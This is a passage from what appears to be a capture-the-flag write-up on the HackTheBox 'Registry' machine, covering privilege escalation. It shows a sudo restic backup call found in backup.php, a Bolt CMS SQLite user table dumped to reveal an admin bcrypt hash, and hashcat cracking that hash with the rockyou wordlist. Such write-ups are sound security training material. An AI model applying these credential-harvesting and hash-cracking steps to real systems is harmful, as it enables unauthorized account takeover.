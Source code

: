 <p align="center">
<img src="{{ '/assets/htb-registry/user-owned.PNG' | relative_url }}">
</p>

<h1>Root exploitation</h1>

<p>With our newfound access we can poke around and see if anything interesting pops up. Sure enough we find a very interesting file under /var/www/html we didn't see previously.</p>

{% highlight shell %}
bolt@bolt:/var/www/html$ cat backup.php 
<?php shell_exec("sudo restic backup -r rest:http://backup.registry.htb/bolt bolt");
{% endhighlight %}

<p>If we keep going down the rabbit hole, we see a bolt folder under /var/www/html as well. A bit of poking and proding and we find that there is a Bolt CMS running under /bolt/bolt/.</p>

<p align="center">
<img src="{{ '/assets/htb-registry/root-boltcms1.PNG' | relative_url }}">
</p>

<p>Unfortunately admin/admin did not work out this time, nor did any other obvious choices - guess we can't get lucky twice.</p>

<p>Switching our focus back to the the /var/www/html/bolt/app folder, we do find something interesting - a sqlite file, bolt.db. Let's get a copy of that back over to our machine and see what we can get from it.</p>

{% highlight shell %}
root@kali:~/Desktop/HTB/Registry# sqlite3 bolt.db 
SQLite version 3.30.0 2019-10-04 15:03:17
Enter ".help" for usage hints.
sqlite> select * from bolt_users;
1|admin|$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK|bolt@registry.htb|2019-10-31 02:51:13|10.10.14.133|Admin|["files://test.php","files://mrxy.php"]|1||||0||["root","everyone"]
sqlite> 
{% endhighlight %}

<p>Alright interesting! A quick search online and we find the right format to run this through hashcat.</p>

{% highlight shell %}
 .\hashcat64.exe --help | Select-String " 3200"

   3200 | bcrypt $2*$, Blowfish (Unix)                     | Operating Systems
{% endhighlight %}

<p>Let's run it through rockyou.txt and see if we can get a hit.</p>

{% highlight shell %}
.\hashcat64.exe -m 0 .\registry.hash .\rockyou.txt -m 3200
{% endhighlight %}

<p align="center">
<img src="{{ '/assets/htb-registry/root-hashcat.PNG' | relative_url }}">
</p>
